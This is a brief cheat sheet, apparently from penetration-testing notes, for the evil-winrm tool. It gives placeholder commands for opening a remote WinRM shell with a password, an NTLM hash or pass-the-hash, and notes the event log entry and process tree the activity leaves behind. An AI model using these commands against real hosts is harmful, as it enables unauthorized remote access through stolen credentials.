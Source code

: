 ### Source
https://github.com/Hackplayers/evil-winrm  

### Start shell on host (port 5985,5986)
```
evil-winrm -i <ip> -u <user> -p <password>
```

### Using ntlm hash
```
evil-winrm -i <ip> -u <user> -H <ntlmHash>
```

### Pass the hash
```
evil-winrm -u <user> -H <Hash> -i <IP>
```

### Opsec considerations
```
-WMI/Operational (5857)
```

### Running processes
```
wsmprovhost.exe
└── sc.exe
    └── conhost.exe
```

